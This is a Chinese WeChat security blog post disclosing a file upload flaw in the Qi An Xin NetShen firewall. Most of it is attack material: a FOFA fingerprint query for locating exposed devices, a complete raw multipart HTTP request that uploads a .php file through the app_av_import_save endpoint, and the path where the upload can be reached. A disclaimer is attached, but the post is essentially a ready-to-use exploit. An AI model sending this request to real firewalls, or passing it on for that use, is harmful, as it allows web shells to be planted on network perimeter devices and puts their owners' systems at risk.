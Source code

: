 #  奇安信网神防火墙 文件上传

原创 Kokoxca安全  [ Kokoxca安全 ](javascript:void\(0\);)

**Kokoxca安全** ![]()

微信号 gh_b130bebc48f2

功能介绍 学习网络安全，渗透笔记，代码审计。

____

___发表于_

0x01
技术文章仅供参考学习，请勿使用本文中所提供的任何技术信息或代码工具进行非法测试和违法行为。若使用者利用本文中技术信息或代码工具对任何计算机系统造成的任何直接或者间接的后果及损失，均由使用者本人负责。本文所提供的技术信息或代码工具仅供于学习，一切不良后果与文章作者无关。使用者应该遵守法律法规，并尊重他人的合法权益。

0x02 指纹信息

  * 

    
    
    fofa：fid="1Lh1LHi6yfkhiO83I59AYg=="

![]()

0x03漏洞详情

![]()

![]()

数据包

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /?g=app_av_import_save HTTP/1.1Host: User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36Accept: */*Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: keep-aliveContent-Type: multipart/form-data; boundary=----WebKitFormBoundarye47i1yjiwdNmjKaQContent-Length: 532  
    ------WebKitFormBoundarye47i1yjiwdNmjKaQContent-Disposition: form-data; name="MAX_FILE_SIZE"  
    10000000------WebKitFormBoundarye47i1yjiwdNmjKaQContent-Disposition: form-data; name="upfile"; filename="12.php"Content-Type: text/plain  
    12121------WebKitFormBoundarye47i1yjiwdNmjKaQContent-Disposition: form-data; name="submit_post"  
    obj_app_upfile------WebKitFormBoundarye47i1yjiwdNmjKaQContent-Disposition: form-data; name="__hash__"  
    0b9d6b1ab7479ab69d9f71b05e0e9445------WebKitFormBoundarye47i1yjiwdNmjKaQ--

上传路径是

  * 

    
    
    url+/attachements/xxxxx.php

 **  
**

 **后续会更新java代审常见的审计方法，喜欢的话记得点个关注哦**

 **快过年了提前祝大家新年快乐![](https://res.wx.qq.com/t/wx_fed/we-
emoji/res/v1.3.10/assets/newemoji/Party.png)![](https://res.wx.qq.com/t/wx_fed/we-
emoji/res/v1.3.10/assets/newemoji/Party.png)![](https://res.wx.qq.com/t/wx_fed/we-
emoji/res/v1.3.10/assets/newemoji/Party.png)**  
  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 奇安信网神防火墙 文件上传

原创 Kokoxca安全  [ Kokoxca安全 ](javascript:void\(0\);)

轻触阅读原文

![]()

Kokoxca安全

赞 分享 在看

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

